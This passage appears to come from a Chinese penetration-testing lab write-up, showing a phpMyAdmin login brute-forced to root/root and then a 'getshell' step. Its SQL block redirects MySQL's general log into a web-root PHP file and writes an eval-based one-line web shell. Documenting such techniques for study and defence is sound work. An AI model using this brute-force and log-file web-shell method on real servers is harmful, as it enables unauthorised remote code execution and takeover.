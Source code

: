 

![image-20211220090904268](https://gitee.com/xxb667/img/raw/master/img/image-20211220090904268.png)

![image-20211219223546375](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20211219223546375.png)

- 然后点击【Payload】
- 有效负载集为1载入Username.txt文件中的数据
- 有效负载集为2载入Password.txt文件中的数据
-  然后点击【开始攻击】:程序自动进行暴力破解
- 匹配用户名和密码
  - 破解得到用户名为：root
  -  密码为：root





![image-20211214191602209](https://gitee.com/xxb667/img/raw/master/img/image-20211214191602209.png)



![image-20211219223904927](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20211219223904927.png)

![image-20211214191602209](https://gitee.com/xxb667/img/raw/master/img/image-20211214191602209.png)



## 3.进入phpmyadmin界面

### 查看主页信息

![image-20211220093336920](https://gitee.com/xxb667/img/raw/master/img/image-20211220093336920.png)



### 对目标信息进行渗透处理

#### 查看日志是否打开

- 点击【变量】
  - 查看是否开启日志和日志地址



![image-20211220091655447](https://gitee.com/xxb667/img/raw/master/img/image-20211220091655447.png)



#### 创建日志文件getshell

```
进入SQL界面
#set global general_log=on; #开启日志
set global general_log_file = 'C:/phpstudy/www/xxb.php'; #设置指定文件为网址日志存放文件
select '<?php @eval($_POST["xxb"]);?>';	

```
